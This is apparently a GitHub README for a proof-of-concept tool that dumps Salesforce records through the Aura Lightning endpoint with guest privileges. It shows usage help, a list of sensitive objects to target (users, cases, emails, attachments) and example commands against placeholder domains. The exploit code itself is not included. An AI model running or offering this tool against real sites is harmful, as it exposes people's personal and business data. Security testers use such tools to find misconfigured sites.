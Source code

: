 # PoC for Salesforce lightning
***Academic purposes Only***. 

This tool dumps the data of Salesforce object through Aura lightning endpoint with the guest privilege.

# Requirement
- Python3 

# Usage
```
$ python exploit.py -h
usage: exploit.py [-h] -u URL [-o [OBJECTS [OBJECTS ...]]] [-l] [-c]

Exploit Salesforce through the aura endpoint with the guest privilege

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     set the SITE url. e.g. http://url/site_path
  -o [OBJECTS [OBJECTS ...]], --objects [OBJECTS [OBJECTS ...]]
                        set the object name. Default value is "User" object.
                        Juicy Objects: Case,Account,User,Contact,Document,Cont
                        entDocument,ContentVersion,ContentBody,CaseComment,Not
                        e,Employee,Attachment,EmailMessage,CaseExternalDocumen
                        t,Attachment,Lead,Name,EmailTemplate,EmailMessageRelat
                        ion
  -l, --listobj         pull the custom object list.
  -c, --check           only check aura endpoint

$ python exploit.y -u https://domain.force.com/sitepath -l
$ python exploit.y -u https://domain.force.com/sitepath -o User Account
```

# Reference
- Salesforce Lightning - An in-depth look at exploitation vectors for the everyday community
  - https://www.enumerated.de/index/salesforce

